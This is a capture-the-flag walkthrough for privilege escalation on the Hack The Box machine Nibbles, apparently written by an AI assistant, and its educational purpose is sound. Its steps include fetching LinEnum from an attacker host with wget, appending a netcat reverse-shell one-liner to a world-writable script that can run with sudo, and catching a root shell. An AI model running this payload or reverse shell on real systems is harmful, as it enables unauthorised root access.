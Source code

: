 ### Walkthrough: Privilege Escalation on HTB Box Nibbles

---

#### **1. Extracting and Analyzing `personal.zip`**

- **Command**:
    
    ```bash
    unzip personal.zip
    ```
    
- **Contents**:
    - A directory structure: `personal/stuff/monitor.sh`.
    - **`monitor.sh` Analysis**:
        - A monitoring script owned by `nibbler`.
        - Script is **world-writable**.

---

#### **2. Enumerating for Privilege Escalation**

- **Tool**: LinEnum.sh
    
    - Download LinEnum:
        
        ```bash
        wget http://<your-attack-ip>:8080/LinEnum.sh
        ```
        
    - Make executable:
        
        ```bash
        chmod +x LinEnum.sh
        ```
        
    - Execute:
        
        ```bash
        ./LinEnum.sh
        ```
        
- **Key Findings**:
    
    - **Sudo Privileges**:
        
        ```plaintext
        User nibbler may run the following commands on Nibbles:
            (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
        ```
        
    - `nibbler` can execute `monitor.sh` as root without a password.

---

#### **3. Crafting a Privilege Escalation Payload**

- **Plan**:
    
    - Append a reverse shell payload to `monitor.sh`.
    - Execute the script with `sudo`.
    - Catch the root shell on the attacker's listener.
- **Payload**:
    
    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-attack-ip> 8443 >/tmp/f
    ```
    
    - Replace `<your-attack-ip>` with your attacking machine's IP.
- **Append Payload to `monitor.sh`**:
    
    ```bash
    echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a /home/nibbler/personal/stuff/monitor.sh
    ```
    

---

#### **4. Executing the Script with Sudo**

- **Command**:
    
    ```bash
    sudo /home/nibbler/personal/stuff/monitor.sh
    ```
    

---

#### **5. Catching the Root Shell**

- **Set Up Listener**:
    
    ```bash
    nc -lvnp 8443
    ```
    
- **Listener Output**:
    
    ```plaintext
    listening on [any] 8443 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
    # id
    uid=0(root) gid=0(root) groups=0(root)
    ```
    

---

#### **6. Capturing the Root Flag**

- **Navigate to `/root`**:
    
    ```bash
    cd /root
    ```
    
- **View `root.txt`**:
    
    ```bash
    cat root.txt
    ```
    

---

### **Key Takeaways**

1. **Privilege Escalation Lessons**:
    
    - Identify writable files with elevated privileges.
    - Modify scripts cautiously by appending payloads to avoid breaking functionality.
2. **Post-Exploitation Tasks**:
    
    - Always take detailed notes.
    - Explore alternate methods to achieve similar results for practice.
3. **Replication**:
    
    - Attempt the box again to reinforce understanding.
    - Explore different tools for enumeration, exploitation, and privilege escalation.

Congratulations on completing the box! Let me know if you'd like to explore more boxes or learn about advanced techniques.